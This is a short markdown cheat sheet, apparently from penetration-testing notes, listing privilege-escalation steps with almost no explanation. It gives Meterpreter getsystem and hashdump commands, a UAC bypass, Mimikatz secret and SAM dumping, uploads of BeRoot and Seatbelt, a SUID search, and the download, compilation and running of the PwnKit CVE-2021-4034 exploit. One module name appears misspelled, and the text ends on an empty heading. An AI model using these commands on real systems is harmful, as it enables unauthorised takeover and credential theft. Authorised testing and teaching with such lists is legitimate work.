  > Radare2

 >rabin2


## <span style="color: #3498db; font-size: 0.8em;">  Escalate Privileges</span>

> getsystem
- meterpreter> `sysinfo`
- meterpreter> `getsystem -t 1`

>hashdump
* meterpreter > `run post/windows/gather/smart_hashdump`

>bypassuac
- meterpreter > `background`
- [msf]> `use /windows/local/bypassuac_foghelper`
- `getuid`

>SUID
- `find / -perm -4000 -ls 2> /dev/null`

>Mimikatz
- `load kiwi`
- `lsa_dump_secrets`
- `lsa_dump_sam`
- `password_change -u user -n hashNTLM -P password`

>BeRoot
- meterpreter> `upload /home/attacker/Desktop/BeRoot/beRoot.exe`
- meterpreter> `shell`
- `beRoot.exe`
- `exit`
- meterpreter> `upload /home/attacker/Desktop/Seatbelt.exe`
- meterpreter> `shell`
- `Seatbelt.exe -group=system`

>Search files
- meterpreter> `search -f file`

>Show state firewall
- `netsh firewall show state`


## <span style="color: #3498db; font-size: 0.8em;">  Polkit or Policykit</span>

> pkexec cve-2021-4034
>polkit
- `https://github.com/arthepsy/CVE-2021-4034`
- `gcc cve-2021-4034-poc.c -o exploit`
- `./exploit`


## <span style="color: #3498db; font-size: 0.8em;">  Modified Data</span>
